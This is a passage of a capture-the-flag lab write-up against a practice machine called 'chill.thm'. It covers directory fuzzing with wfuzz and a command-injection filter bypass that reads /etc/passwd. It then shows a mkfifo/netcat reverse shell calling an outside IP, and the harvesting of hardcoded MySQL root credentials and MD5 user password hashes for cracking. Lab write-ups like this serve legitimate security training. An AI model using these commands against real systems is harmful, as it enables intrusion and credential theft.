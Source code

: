 <pre>┌─[user@parrot]─[~]
└──╼ $wfuzz -u http://chill.thm//FUZZ -w /usr/share/wordlists/wfuzz/general/big.txt -c --hc 404,403

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://chill.thm//FUZZ
Total requests: 3024

===================================================================
ID           Response   Lines    Word     Chars       Payload        
===================================================================

000000740:   301        9 L      28 W     304 Ch      "css"          
000001085:   301        9 L      28 W     306 Ch      "fonts"        
000001337:   301        9 L      28 W     307 Ch      "images"       
000001474:   301        9 L      28 W     303 Ch      "js"           
000002402:   301        9 L      28 W     307 Ch      "secret" </pre>

Let's checkout "secret":

![secret](https://imgur.com/CECjkyw.png)

I try some commands and it seems to not like reverse shells and commands like "ls". Some more testing shows how only the word is being sanitised, so if we go like this:

<pre>whoami;cat /etc/passwd</pre>

We get a result. We can use this to execute our own commands. I tried the following:

<pre>echo "";rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.9.6.65 4444 >/tmp/f</pre>

We get a reverse shell as www-data. Some quick enumeration in the website files, I see some mysql config credentials in /var/www/files/index.php:

<pre>$con = new PDO("mysql:dbname=webportal;host=localhost","root","!@m+her00+@db");</pre>

Let's see if we can see the entries and crack them?

<pre>mysql -u root -p 
!@m+her00+@db
use webportal
select * from users</pre>

And we get:

<pre>| id | firstname | lastname | username  | password                         |
+----+-----------+----------+-----------+----------------------------------+
|  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd |
|  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649 |
+----+-----------+----------+-----------+----------------------------------+</pre>

Let's see if we can crack these md5 hash passwords on crackstation:
